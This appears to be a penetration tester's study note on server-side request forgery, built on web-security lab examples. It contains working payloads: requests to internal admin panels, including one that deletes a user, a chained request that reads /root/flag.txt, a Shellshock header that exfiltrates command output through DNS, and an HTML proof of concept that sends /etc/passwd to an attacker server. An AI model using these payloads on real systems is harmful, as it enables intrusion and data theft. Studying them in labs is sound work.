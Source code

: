 Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make requests to an unintended location.

In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. In other cases, they may be able to force the server to connect to arbitrary external systems, potentially leaking sensitive data such as authorization credentials.

## SSRF attacks against the server itself

In an SSRF attack against the server itself, the attacker induces the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface.

Main point of intrests:
- Pages accessible only from localhost (like administrative panels)
- Services on other ports

>[!example]
>Original request:
>```http
>POST /product/stock HTTP/1.0
>Content-Type: application/x-www-form-urlencoded
>Content-Length: 118
>
>stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1>
>```
>
> Malicious request:
> ```http
> POST /product/stock HTTP/1.0
>Content-Type: application/x-www-form-urlencoded
>Content-Length: 118
>
>stockApi=http://localhost/admin
>```

Depending on the library used to issue the requests (eg. python [urllib](https://docs.python.org/3.8/library/urllib.html)), also other protocols may be supported and mis-used:
- `file://`
- `ftp://`
## SSRF attacks against other servers

SSRF against other servers often arises when the application server is able to interact with other back-end systems that are not directly reachable by users. 
These systems often have non-routable private IP addresses and often have a weaker security posture. In many cases, they contain sensitive functionality often accessibile  without authentication.

>[!example]
>Request against an internal, non-routed, administrative panel:
>
>```http
>POST /product/stock HTTP/1.1
Host: 0ae400fb040404ddc56df732005a00ae.web-security-academy.net
Cookie: session=jQGNv9ozVPtY2SdltFQVanHUn7mzqQsk
Content-Length: 73
Connection: close
>
>stockApi=http://192.168.0.100:8080/admin/delete?username=carlos&storeId=1
>```

>[!tip] Chain multiple SSRF!
>Remember that you can chain multiple SSRF in order to increase the attack surface! However, **you must url-encode parameters and special characters one time for every component you are going trough**:
>
>Eg with 3 nodes: `curl -i -s "http://10.129.201.238/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=cat%252520%25252Froot%25252Fflag%25252Etxt"` (`cat /root/flag.txt` has been url-encoded 3 times)
## Blind SSRF

Blind SSRF vulnerabilities arise when an application can be induced to issue a back-end HTTP request to a supplied URL, but the response from the back-end request is not returned in the application's front-end response.

Blind SSRF can be found using [OAST](https://portswigger.net/burp/application-security-testing/oast) techniques and sometimes also looking at response times.

>[!note]
>It is common when testing for SSRF vulnerabilities to observe a DNS look-up for the supplied Collaborator domain, but no subsequent HTTP request. This typically happens because the application attempted to make an HTTP request to the domain, which caused the initial DNS lookup, but the actual HTTP request was blocked by network-level filtering. It is relatively common for infrastructure to allow outbound DNS traffic, since this is needed for so many purposes, but block HTTP connections to unexpected destinations.

Identifying a blind SSRF vulnerability that can trigger out-of-band HTTP requests doesn't in itself provide a route to exploitability. However, it can still be leveraged to probe for other vulnerabilities. You can blindly sweep the internal IP address space, sending payloads designed to detect well-known vulnerabilities. If those payloads also employ blind out-of-band techniques, then you might uncover a critical vulnerability on an unpatched internal server.

Another avenue for exploiting blind SSRF vulnerabilities is to induce the application to connect to a system under the attacker's control, and return malicious responses to the HTTP client that makes the connection. If you can exploit a serious client-side vulnerability in the server's HTTP implementation, you might be able to achieve remote code execution within the application infrastructure. [^1]

[^1]: https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface#remoteclient

>[!example] Exploit a blind SSRF to exfiltrate usernames from targets vulnerable to ShellShock
>```http
GET /product?productId=1 HTTP/1.1
Host: 0a240091041ee9e2c2e8e317006a00a4.web-security-academy.net
Cookie: session=N0jjt4vE0NGhsIgr52oW9MFtvlSuBLv2
Upgrade-Insecure-Requests: 1
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).cp5wj8xh4c0qaefd19tzdw6dh4nvbuzj.oastify.com
Referer: http://192.168.0.§0§:8080/
Connection: close
>```

## Other attack surface

- Partial URLs in requests (eg. only a hostname or part of a URL path into request parameters)
- URLs within data formats
	- XML leading to SSRF using [XML External Entity Injection (XXE Injection)](XML%20External%20Entity%20Injection%20(XXE%20Injection).md), 
	- File converters or parsers and HTML files containing images (eg. wkhtmltopdf [^html2pdf] ) 
- Referer header or other headers ([Host header SSRF attacks (aka Routing-based SSRF)](Host%20Header%20attacks.md#Host%20header%20SSRF%20attacks%20(aka%20Routing-based%20SSRF)))
- [SSRF registering an arbitrary OpenID Connect client application](OpenID%20Connect%20attacks.md#SSRF%20registering%20an%20arbitrary%20client%20application)

[^html2pdf]: [wkhtmltopdf](https://wkhtmltopdf.org/downloads.html), wkhtmltopdf.org

PoC for leaking arbitrary files when converting HTML to PDF:
```html
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>
```

## SSRF evasion and bypasses

- [Evading Restrictions](Evading%20Restrictions.md)
- [SSRF bypass list by h4x0r_fr34k](../../Readwise/Tweets/@h4x0r_fr34k%20on%20Twitter%20-%20Tweets%20From%20VAIDIK%20PANDYA.md#^2da607)
- [A New Era of SSRF](https://portswigger.net/research/top-10-web-hacking-techniques-of-2017#1)
- [PortSwigger Research - Introducing the URL Validation Bypass Cheat Sheet](../../Readwise/Articles/PortSwigger%20Research%20-%20Introducing%20the%20URL%20Validation%20Bypass%20Cheat%20Sheet.md) #tools 
- [DNS rebinding](../Services/DNS%20-%20Domain%20Name%20System.md#DNS%20rebinding)

## External resources and tools

- [HackTrick (SSRF)](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
- [Targeting auxiliary systems](https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface#aux)
- [SSRFPwned](https://github.com/blackhatethicalhacking/SSRFPwned) - Checks for SSRF using built-in custom Payloads after fetching URLs from Multiple Passive Sources & applying complex patterns aimed at SSRF
- [SSRF: A complete guide to exploiting advanced SSRF vulnerabilities](https://blog.intigriti.com/hacking-tools/ssrf-a-complete-guide-to-exploiting-advanced-ssrf-vulnerabilities)
- [Introducing the URL Validation Bypass Cheat Sheet](../../Readwise/Articles/PortSwigger%20Research%20-%20Introducing%20the%20URL%20Validation%20Bypass%20Cheat%20Sheet.md) #tools 
- [NTLM Credential Theft in Python Windows Applications](https://www.horizon3.ai/attack-research/disclosures/ntlm-credential-theft-in-python-windows-applications/), horizon3.ai